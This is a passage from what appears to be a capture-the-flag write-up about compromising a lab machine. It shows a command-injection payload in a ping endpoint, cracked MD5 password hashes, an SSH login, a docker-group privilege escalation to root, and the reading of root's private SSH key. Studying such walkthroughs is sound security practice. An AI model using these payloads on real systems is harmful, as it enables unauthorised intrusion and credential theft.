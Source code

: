     ```
    

Then we did

```jsx
[<http://10.10.43.71:8081/ping?ip=`cat> utech.db.sqlite`](<http://10.10.43.71:8081/ping?ip=%60cat%20utech.db.sqlite%60>)
```

and we got

![image.png](attachment:c71cb4a1-c30f-49db-8ab8-7d28403fd82c:image.png)

then we get hashes and then we matched the db and got

|Hash|Type|Result|
|---|---|---|
|f357a0c52799563c7c7b76c1e7543a32|md5|n100906|
|0d0ea5111e3c1def594c1684e3b9be84|md5|mrsheafy|

Then we tried to ssh to user `r00t` via ssh and it works~

then we did a little digging

- Basic checking
    
    ```jsx
    r00t@ultratech-prod:~$ ls
    r00t@ultratech-prod:~$ whoami
    r00t
    r00t@ultratech-prod:/$ sudo su
    [sudo] password for r00t: 
    r00t is not in the sudoers file.  This incident will be reported.
    r00t@ultratech-prod:/etc$ id
    uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
    r00t@ultratech-prod:/etc$ sudo -l
    [sudo] password for r00t: 
    Sorry, user r00t may not run sudo on ultratech-prod.
    
    ```
    

And we saw that are in a docker group

Tried a few payloads

```jsx
r00t@ultratech-prod:/etc$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami
root
```

This one worked and we cat the id_rsa

```jsx
# cat /root/.ssh/id_rsa
```

And we get the ssh key yay~